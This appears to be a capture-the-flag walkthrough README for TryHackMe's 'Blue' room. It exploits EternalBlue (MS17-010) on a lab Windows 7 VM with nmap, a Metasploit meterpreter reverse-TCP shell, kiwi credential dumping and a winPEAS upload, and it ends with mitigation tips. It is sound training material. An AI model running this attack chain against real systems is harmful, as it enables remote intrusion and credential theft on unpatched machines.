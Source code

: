 # TryHackMe: Blue – Walkthrough

Room Link: https://tryhackme.com/room/blueDifficulty: Beginner / IntermediateFocus: Exploiting MS17-010 (EternalBlue) on a Windows VMTools:

use : Kali Linux (or any pentest distro)

Tools : Nmap, Metasploit Framework, SMB enumeration scripts


# Table of Contents

1: Overview & Setup

2: Network Scanning & Enumeration

3: Vulnerability Verification (MS17-010)

4: Exploitation with Metasploit

5: Gaining a Meterpreter Shell

6: Post-Exploitation & Privilege Escalation

7: Capturing Flags & Room Questions

8: Mitigation & Hardening Tips

## 1. Overview & Setup

Join the VPN

sudo openvpn --config ~/Downloads/tryhackme.ovpn

Confirm connectivity

ip a            # Check your tun0 interface
ping 10.10.10.10  # Replace with the room's gateway to verify

Note the target IP (you’ll see it in the room’s instructions).

In this walkthrough we'll call it <TARGET_IP>

## 2. Network Scanning & Enumeration

### 2.1 Full TCP Port Scan

nmap -p- -T4 -oN nmap/full-tcp-portscan.txt <TARGET_IP>

Finds all open TCP ports (e.g., 135, 139, 445, 3389)

### 2.2 Service & Version Detection

nmap -sC -sV -p 135,139,445,3389 -oN nmap/service-detect.txt <TARGET_IP>

-sC runs default scripts

-sV detects versions

### 2.3 SMB-Specific Enumeration

nmap -p445 --script smb-os-discovery,smb-vuln-ms17-010 -oN nmap/smb-enum.txt <TARGET_IP>

smb-os-discovery → OS details

smb-vuln-ms17-010 → checks EternalBlue vulnerability

## 3. Vulnerability Verification (MS17-010)

Check the nmap/smb-enum.txt output. You should see:

| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE-2017-0143

If State: VULNERABLE appears, proceed.

## 4. Exploitation with Metasploit

Launch Metasploit

msfconsole

Search for EternalBlue module

search ms17_010

Select the exploit

use exploit/windows/smb/ms17_010_eternalblue

Configure options

set RHOSTS <TARGET_IP>
set LHOST <YOUR_TUN0_IP>
set LPORT 4444           # or any free port
set PAYLOAD windows/x64/meterpreter/reverse_tcp

Optional – check targets

show targets

Run the exploit

exploit

You should see a meterpreter session open.

## 5. Gaining a Meterpreter Shell

Once the exploit succeeds:

[*] Meterpreter session 1 opened (10.10.14.5:4444 -> 10.10.10.42:49155) at 2025-07-03 19:30:00 +0530

Inside Meterpreter:

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : BLUE
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64

## 6. Post-Exploitation & Privilege Escalation

Check for credentials with Mimikatz (if available)

meterpreter > load kiwi
meterpreter > creds_all

Upload & run winPEAS

meterpreter > upload /root/tools/winPEAS/winPEAS.exe C:\Windows\Temp\\
meterpreter > execute -f C:\Windows\Temp\winPEAS.exe

Review output

Look for unquoted service paths, weak permissions, etc.

## 7. Capturing Flags & Room Questions

User flag

cat C:\Users\Guest\Desktop\user.txt

Root flag (SYSTEM)

cat C:\Users\Administrator\Desktop\root.txt

Answer key questions in the room:

What SMB version is running?

What exploit did you use?

What is the OS build number?

What is the content of each flag?

## 8. Mitigation & Hardening Tips

Patch Management: Apply MS17-010 patch (KB4013389)

SMBv1: Disable if not required

Network Segmentation: Limit SMB traffic

Endpoint Monitoring: Alert on unusual SMB behavior


🎉 Congrats! You’ve fully exploited and documented the Blue machine.Feel free to open an issue or PR if you find anything to improve!
